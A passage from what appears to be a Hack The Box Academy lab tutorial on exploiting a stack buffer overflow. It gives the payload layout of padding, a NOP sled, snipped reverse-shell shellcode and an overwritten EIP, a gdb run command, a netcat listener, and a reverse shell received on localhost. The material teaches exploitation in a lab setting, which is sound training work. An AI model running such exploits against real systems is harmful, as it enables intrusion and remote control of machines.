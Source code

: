```shell
```

Here, we now have to choose an address to which we refer the `EIP` and which reads and executes one byte after the other starting at this address. In this example, we take the address `0xffffd64c`. Illustrated, it then looks like this:

#### Buffer

![Memory layout diagram with sections: .text, .data, .bss, Heap, and Stack. Memory addresses range from 0x00000000 to 0xFFFFFFFF. An arrow shows a buffer overflow from strcpy() in the Stack, affecting ESP, EBP, and EIP registers, with a buffer of 841 bytes, 100 bytes of NOPs, 95 bytes of shellcode, and 4 bytes to EIP](https://academy.hackthebox.com/storage/modules/31/buffer_overflow_9.png)

After selecting a memory address, we replace our " `\x66`" which overwrites the EIP to tell it to jump to the `0xffffd64c` address. Note that the input of the address is entered backward.

#### Notes

```shell
   Buffer = "\x55" * (1040 - 100 - 95 - 4) = 841
     NOPs = "\x90" * 100
Shellcode = "\xda\xca\xba\xe4\x11\xd4...<SNIP>...\x5a\x22\xa2"
      EIP = "\x4c\xd6\xff\xff"

```

Since our shellcode creates a reverse shell, we let `netcat` listen on port 31337.

#### Netcat - Reverse Shell Listener

```shell
student@nix-bow:$ nc -nlvp 31337

Listening on [0.0.0.0] (family 0, port 31337)

```

After starting our `netcat` listener, we now run our adapted exploit again, which then triggers the CPU to connect to our listener.

#### Exploitation

```shell
(gdb) run $(python -c 'print "\x55" * (1040 - 100 - 95 - 4) + "\x90" * 100 + "\xda\xca\xba...<SNIP>...\x5a\x22\xa2" + "\x4c\xd6\xff\xff"')

```

#### Netcat - Reverse Shell Listener

```shell
Listening on [0.0.0.0] (family 0, port 31337)
Connection from 127.0.0.1 33504 received!

id

uid=1000(student) gid=1000(student) groups=1000(student),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare)

```
